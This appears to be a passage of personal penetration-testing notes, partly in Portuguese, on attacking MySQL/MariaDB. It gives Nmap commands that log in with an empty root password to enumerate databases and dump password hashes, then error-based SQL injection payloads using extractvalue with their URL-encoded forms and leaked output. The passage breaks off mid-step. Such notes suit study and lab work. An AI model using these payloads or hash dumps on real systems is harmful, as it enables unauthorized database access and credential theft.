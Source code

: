 # MYSQL

- Nmap
    
    ```powershell
    nmap --script=mysql-empty-password -p 3306 192.71.145.3
    nmap --script=mysql-info -p 3306 192.71.145.3
    nmap --script=mysql-users --script-args="mysqluser='root',mysqlpass=''" -p 3306
    192.71.145.3
    nmap --script=mysql-databases --script-args="mysqluser='root',mysqlpass=''" -p
    3306 192.71.145.3
    nmap --script=mysql-variables --script-args="mysqluser='root',mysqlpass=''" -p
    3306 192.71.145.3
    nmap --script=mysql-audit --script-args
    "mysql-audit.username='root',mysql-audit.password='',mysql-audit.filename='/usr/share/nmap/n
    selib/data/mysql-cis.audit'" -p 3306 192.71.145.3
    nmap --script mysql-dump-hashes --script-args="username='root',password=''" -p
    3306 192.71.145.3
    nmap --script=mysql-query --script-args="query='select count(*) from
    books.authors;',username='root',password=''" -p 3306 192.71.145.3
    ```
    
- Manual SQL enum
    
    `GET /?o=1'&page=app`
    
    You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '5' or dest like '1'') LIMIT 10' at line 1
    
    Possível query
    
    `select * from table where (message like'5' or dest like '**<inject>**') LIMIT 10`
    
    Nota 
    
    Todas as query devem ser convertidas para codificação url
    
    Tentativas
    
    1
    
    `') and extractvalue(0x0a,version())-- -`
    
    Colocar url encoded
    
    `')+and+extractvalue(0x0a,version())--+-`
    
    Output
    
    DEBUG INFO: XPATH syntax error: '.39-MariaDB-0+deb10u1’
    
    Esta query está a limitar a apresentação dos resultados
    
    2
    
    `') and extractvalue(0x0a,concat(0x0a,version()))-- -`
    
    Output
    